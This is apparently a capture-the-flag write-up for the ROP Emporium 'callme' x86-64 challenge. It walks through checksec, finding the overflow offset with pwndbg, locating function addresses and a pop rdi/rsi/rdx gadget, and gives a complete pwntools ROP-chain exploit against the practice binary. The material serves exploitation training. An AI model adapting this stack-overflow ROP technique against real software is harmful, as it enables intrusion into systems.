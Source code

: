 First of all, use checksec to get some binary information
```shell
[marco@marco-pc callme]$ file callme 
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=00e98079187631025159f040444e55bed3edcf1c, not stripped
[marco@marco-pc callme]$ checksec --file='callme'
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          RW-RPATH   No RUNPATH   82 Symbols     No	0		3	callme
```

ROP Emporium tell us:
*You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag.*

Before searching functions address, we find out how many bytes are to be filled before RIP
```gdb
gdb-pwndbg callme

...

pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
pwndbg> r
Starting program: /home/marco/Downloads/callme/callme 
callme by ROP Emporium
64bits

Hope you read the instructions...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.

...

RBP  0x6161616a61616169 ('iaaajaaa')

...

pwndbg> cyclic -l 'iaaa'
32
```

As we have seen with `checksec`, the program is not stripped and there isn't PIE (no randomization). This means that we can look up the address of the 3 functions in the binary.
```gdb
[marco@marco-pc callme]$ gdb-pwndbg callme 
Reading symbols from callme...
(No debugging symbols found in callme)
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> i functions
All defined functions:

Non-debugging symbols:
0x00000000004017c0  _init
0x00000000004017f0  puts@plt
0x0000000000401800  printf@plt
0x0000000000401810  callme_three@plt
0x0000000000401820  memset@plt
0x0000000000401830  __libc_start_main@plt
0x0000000000401840  fgets@plt
0x0000000000401850  callme_one@plt
0x0000000000401860  setvbuf@plt
0x0000000000401870  callme_two@plt
0x0000000000401880  exit@plt
0x0000000000401890  __gmon_start__@plt
0x00000000004018a0  _start
0x00000000004018d0  deregister_tm_clones
0x0000000000401910  register_tm_clones
0x0000000000401950  __do_global_dtors_aux
0x0000000000401970  frame_dummy
0x0000000000401996  main
0x0000000000401a05  pwnme
0x0000000000401a57  usefulFunction
0x0000000000401ab0  usefulGadgets
0x0000000000401ac0  __libc_csu_init
0x0000000000401b30  __libc_csu_fini
0x0000000000401b34  _fini
```

Last thing we need to build our exploit, is a gadget that pop 3 arguments from the stack into RDI, RSI, RDX (x64 calling convention).
```shell
[marco@marco-pc callme]$ ROPgadget --binary="callme" > gadgets
[marco@marco-pc callme]$ cat gadgets | grep pop
0x00000000004018fc : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004018fe : add byte ptr [rax], al ; pop rbp ; ret
0x0000000000401aae : add byte ptr [rax], al ; pop rdi ; pop rsi ; pop rdx ; ret
0x0000000000401aad : add byte ptr [rax], r8b ; pop rdi ; pop rsi ; pop rdx ; ret
0x0000000000401aaf : add byte ptr [rdi + 0x5e], bl ; pop rdx ; ret
0x00000000004018ed : je 0x401908 ; pop rbp ; mov edi, 0x602078 ; jmp rax
0x000000000040193b : je 0x401950 ; pop rbp ; mov edi, 0x602078 ; jmp rax
0x00000000004019fe : mov eax, 0 ; pop rbp ; ret
0x00000000004018f8 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x0000000000401aab : nop dword ptr [rax + rax] ; pop rdi ; pop rsi ; pop rdx ; ret
0x0000000000401945 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000401b1c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401b1e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401b20 : pop r14 ; pop r15 ; ret
0x0000000000401b22 : pop r15 ; ret
0x0000000000401962 : pop rbp ; mov byte ptr [rip + 0x20073e], 1 ; ret
0x00000000004018ef : pop rbp ; mov edi, 0x602078 ; jmp rax
0x0000000000401b1b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401b1f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401900 : pop rbp ; ret
0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
0x0000000000401b23 : pop rdi ; ret
0x0000000000401ab2 : pop rdx ; ret
0x0000000000401b21 : pop rsi ; pop r15 ; ret
0x0000000000401ab1 : pop rsi ; pop rdx ; ret
0x0000000000401b1d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004018fa : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
```

gadget `*0x0000000000401ab0 : pop rdi ; pop rsi ; pop rdx ; ret*` seems to be perfect!

Final exploit:
NOTE: remeber to add 8 byte to overflow the buffer (32 to RBP + 8 to RIP)
```python
from pwn import *

callme_one = 0x0000000000401850
callme_two = 0x0000000000401870
callme_three = 0x0000000000401810
pop_3 = 0x0000000000401ab0

shellcode = ("A"*40).encode()
shellcode += p64(pop_3)
shellcode += p64(0x1)
shellcode += p64(0x2)
shellcode += p64(0x3)
shellcode += p64(callme_one)

shellcode += p64(pop_3)
shellcode += p64(0x1)
shellcode += p64(0x2)
shellcode += p64(0x3)
shellcode += p64(callme_two)

shellcode += p64(pop_3)
shellcode += p64(0x1)
shellcode += p64(0x2)
shellcode += p64(0x3)
shellcode += p64(callme_three)

p = process('./callme')
p.recvuntil('>')
p.sendline(shellcode)
print(p.recvall().decode())
```
